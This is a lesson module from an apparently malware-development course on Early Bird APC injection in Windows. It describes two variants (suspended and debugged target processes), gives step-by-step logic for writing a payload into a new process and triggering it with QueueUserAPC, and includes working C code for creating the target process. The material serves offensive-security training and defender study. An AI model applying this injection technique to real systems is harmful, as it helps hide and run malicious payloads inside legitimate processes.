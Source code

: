 40. Early Bird APC Injection# [**40. Early Bird APC Injection**](https://maldevacademy.com/modules/40)

## **Early Bird APC Injection**

### **Introduction**

In the previous module, `QueueUserAPC` was used to perform local APC injection. In this module, the same API will be used to execute the payload in a remote process. Although the approach will slightly differ, the method used is the same.

By now it should be well understood that APC injection requires either a suspended or an alertable thread to successfully execute the payload. However, it is difficult to come across threads that are in these states, especially ones that are operating under normal user privileges.

The solution for this is to create a suspended process using the `CreateProcess` WinAPI and use the handle to its suspended thread. The suspended thread meets the criteria to be used in APC injection. This method is known as Early Bird APC Injection.

### **Early Bird Implementation Logic (1)**

The implementation logic of this technique will be as follows:

1. Create a suspended process by using the `CREATE_SUSPENDED` flag.
2. Write the payload to the address space of the new target process.
3. Get the suspended thread's handle from `CreateProcess` along with the payload's base address and pass them to `QueueUserAPC`.
4. Resume the thread using the `ResumeThread` WinAPI to execute the payload.

### **Early Bird Implementation Logic (2)**

The implementation logic explained in the previous section is straightforward. This section introduces an alternative way of implementing Early Bird APC Injection.

`CreateProcess` will still be used, but the [process creation flag](https://learn.microsoft.com/en-us/windows/desktop/ProcThread/process-creation-flags) will be changed from `CREATE_SUSPENDED` to `DEBUG_PROCESS`. The `DEBUG_PROCESS` flag will create the new process as a debugged process and make the local process its debugger. When a process is created as a debugged process, a breakpoint will be placed in its entry point. This pauses the process and waits for the debugger (i.e. the malware) to resume execution.

When this occurs, the payload is injected into the target process to be executed using the `QueueUserAPC` WinAPI. Once the payload is injected and the remote debugged thread is queued to run the payload, the local process can be detached from the target process using the [DebugActiveProcessStop](https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-debugactiveprocessstop) WinAPI which stops the remote process from being debugged.

`DebugActiveProcessStop` requires only one parameter which is the PID of the debugged process that can be fetched from the `PROCESS_INFORMATION` structure populated by `CreateProcess`.

### **Updated Implementation Logic**

The updated implementation will be as follows:

1. Create a debugged process by setting the `DEBUG_PROCESS` flag.
2. Write the payload to the address space of the new target process.
3. Get the debugged thread's handle from `CreateProcess` along with the payload's base address and pass them to `QueueUserAPC`.
4. Stop the debugging of the remote process using `DebugActiveProcessStop` which resumes its threads and executes the payload.

### **Early Bird APC Injection Function**

`CreateSuspendedProcess2` is a function that performs Early Bird APC Injection and requires 4 arguments:

* `lpProcessName` - The name of the process to create.
* `dwProcessId` - A pointer to a DWORD which will receive the newly created process's PID.
* `hProcess` - Pointer to a HANDLE that will receive the newly created process's handle.
* `hThread` - Pointer to a HANDLE that will receive the newly created process's thread.


```
BOOL CreateSuspendedProcess2(LPCSTR lpProcessName, DWORD* dwProcessId, HANDLE* hProcess, HANDLE* hThread) {

	CHAR lpPath   [MAX_PATH * 2];
	CHAR WnDr     [MAX_PATH];

	STARTUPINFO            Si    = { 0 };
	PROCESS_INFORMATION    Pi    = { 0 };

	// Cleaning the structs by setting the element values to 0
	RtlSecureZeroMemory(&Si, sizeof(STARTUPINFO));
	RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));

	// Setting the size of the structure
	Si.cb = sizeof(STARTUPINFO);

	// Getting the %WINDIR% environment variable path (That is generally 'C:\Windows')
	if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
		printf("[!] GetEnvironmentVariableA Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Creating the target process path
	sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);
	printf("\n\t[i] Running : \"%s\" ... ", lpPath);

	// Creating the process
	if (!CreateProcessA(
		NULL,
		lpPath,
		NULL,
		NULL,
		FALSE,
		DEBUG_PROCESS,		// Instead of CREATE_SUSPENDED
		NULL,
		NULL,
		&Si,
		&Pi)) {
		printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("[+] DONE \n");

	// Filling up the OUTPUT parameter with CreateProcessA's output
	*dwProcessId        = Pi.dwProcessId;
	*hProcess           = Pi.hProcess;
	*hThread            = Pi.hThread;

	// Doing a check to verify we got everything we need
	if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
		return TRUE;

	return FALSE;
}

```
### **Demo**

The image below shows the newly created target process in a debug state. A debugged process is highlighted in purple in Process Hacker.




[![](40%20Early%20Bird%20APC%20Injection%20a9fb0ac0fc464b7c8a61de3fba4d7c8c/demo-109330271-93c3e529-dfea-4868-ad56-48ce90efe172.png)](40%20Early%20Bird%20APC%20Injection%20a9fb0ac0fc464b7c8a61de3fba4d7c8c/demo-109330271-93c3e529-dfea-4868-ad56-48ce90efe172.png)Next, the payload is written to the target process.

[![](40%20Early%20Bird%20APC%20Injection%20a9fb0ac0fc464b7c8a61de3fba4d7c8c/demo-209330277-04b3a674-e5f7-41b1-95a3-423e34d2f5aa.png)](40%20Early%20Bird%20APC%20Injection%20a9fb0ac0fc464b7c8a61de3fba4d7c8c/demo-209330277-04b3a674-e5f7-41b1-95a3-423e34d2f5aa.png)Finally, the payload is executed.

[![](40%20Early%20Bird%20APC%20Injection%20a9fb0ac0fc464b7c8a61de3fba4d7c8c/demo-309330284-92aec1dc-b899-49a8-a170-f9845cbe5246.png)](40%20Early%20Bird%20APC%20Injection%20a9fb0ac0fc464b7c8a61de3fba4d7c8c/demo-309330284-92aec1dc-b899-49a8-a170-f9845cbe5246.png)